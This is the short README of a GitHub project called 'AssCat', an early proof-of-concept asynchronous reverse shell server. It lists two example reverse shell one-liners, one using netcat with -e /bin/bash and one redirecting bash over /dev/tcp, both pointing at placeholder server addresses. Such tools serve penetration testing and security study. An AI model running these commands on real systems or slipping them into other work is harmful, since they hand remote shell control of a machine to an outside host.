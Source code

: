 ## AssCat
### Async (Reverse) Shell Server  

##### (only a PoC at the moment, project name might change)
<br>

###### Supports raw shell clients like:
```nc <SERVER_IP> <SERVER_PORT> -e /bin/bash```

###### or:
```bash -i >& /dev/tcp/<SERVER_IP>/<SERVER_PORT> 0>&1```

###### etc...